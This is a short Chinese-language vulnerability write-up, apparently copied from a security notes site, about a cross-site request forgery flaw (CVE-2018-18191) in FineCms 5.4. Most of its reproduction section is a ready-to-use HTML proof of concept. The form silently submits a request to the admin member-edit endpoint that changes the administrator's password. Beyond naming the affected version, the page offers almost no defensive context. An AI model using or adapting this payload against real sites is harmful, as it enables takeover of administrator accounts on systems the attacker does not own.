 # （CVE-2018-18191）Finecms 5.4 存在 CSRF 漏洞

> 原文：[http://book.iwonder.run/0day/Finecms/CVE-2018-18191.html](http://book.iwonder.run/0day/Finecms/CVE-2018-18191.html)

## 一、漏洞简介

Dayrui FineCms 是中国天睿（Dayrui）程序设计团队发布的一套使用 MVC 架构和 PDO 数据库接口开发的内容管理系统（CMS）。 Dayrui FineCms 5.4 版本中的/admin.php?c=member&m=edit&uid=1 存在跨站请求伪造漏洞。远程攻击者可利用该漏洞修改管理员账户密码。

## 二、漏洞影响

Finecms 5.4

## 三、复现过程

### poc

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/admin.php?c=member&m=edit&uid=1" method="POST">
      <input type="hidden" name="page" value="0" />
      <input type="hidden" name="member&#91;email&#93;" value="admin&#64;163&#46;com" />
      <input type="hidden" name="member&#91;name&#93;" value="admin" />
      <input type="hidden" name="member&#91;phone&#93;" value="18888888888" />
      <input type="hidden" name="member&#91;password&#93;" value="888888" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

